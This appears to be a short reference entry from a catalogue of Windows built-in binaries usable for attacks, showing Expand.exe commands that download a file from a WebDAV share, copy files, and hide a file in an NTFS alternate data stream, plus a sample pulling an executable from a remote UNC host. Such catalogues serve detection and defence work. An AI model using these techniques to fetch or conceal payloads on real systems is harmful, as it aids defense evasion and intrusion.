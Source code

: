 ## Expand.exe

* Functions: Download, Copy, Add ADS

```
expand \\webdav\folder\file.bat c:\ADS\file.bat    

expand c:\ADS\file1.bat c:\ADS\file2.bat    

expand \\webdav\folder\file.bat c:\ADS\file.txt:file.bat     
```

Acknowledgements:
* Rahmat Nurfauzi - @infosecn1nja
* Oddvar Moe - @oddvarmoe

Code sample:
* net start webclient && expand \\live.sysinternals.com\tools\adexplorer.exe  c:\temp\outfile.exe && net stop webclient

Resources:
* https://twitter.com/infosecn1nja/status/986628482858807297
* https://twitter.com/Oddvarmoe/status/986709068759949319

Full path:
```
c:\windows\system32\Expand.exe
c:\windows\sysWOW64\Expand.exe
```

Notes:



 
